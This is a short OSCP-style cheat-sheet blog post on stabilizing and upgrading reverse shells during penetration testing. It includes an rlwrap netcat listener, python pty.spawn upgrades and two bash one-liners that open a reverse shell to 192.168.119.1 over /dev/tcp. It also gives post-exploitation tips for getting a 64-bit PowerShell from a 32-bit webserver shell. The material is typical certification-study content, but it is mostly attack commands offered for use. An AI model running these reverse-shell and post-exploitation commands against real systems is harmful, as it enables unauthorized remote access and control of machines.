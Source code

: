 ```yaml
---
title: Upgrading and Improving Shells
author: sKyW1per
category: "OSCP"
date: "2021-03-09 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```



###### Tricks to improve a crappy shell
```
rlwrap
$ rlwrap -r nc -nvlp 443

Turning terminal echo off:
1
Ctrl + Z in the nc instance to move the shell to the background;
2
$ stty raw echo; fg
For also getting the ability to clear the screen:
3
In the nc shell:
$ export term=XTERM

```

###### Upgrading Shells
```
Upgrade sh to bash using python (2 or 3)
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/

Start bash instance:
$ /bin/bash -i >& /dev/tcp/192.168.119.1/80 0>&1
$ /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.119.1/80 0>&1'

```

###### Check Architecture of a PowerShell connection

~|32 bit folder|64 bit folder|
---|---|---
32-bit session | C:\Windows\system32\ | C:\Windows\sysNative
64-bit session | C:\Windows\sysWOW64\ | C:\Windows\system32

```
Check architecture of the host
$ [system.environment]::Is64BitOperatingSystem

Check architecture of powershell environment:
$ [Environment]::Is64BitProcess

alternative to check arch in ps environment:
$ [IntPtr]::Size
The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process.

For example: If you get a shell trough a webserver running in a 32bit process but the host is 64bit, powershell will by default open a 32bit process.
This can be solved by specifically calling powershell with the following path:
C:\Windows\sysNative\WindowsPowerShell\v1.0\powershell.exe

More info:
https://ss64.com/nt/syntax-64bit.html
```
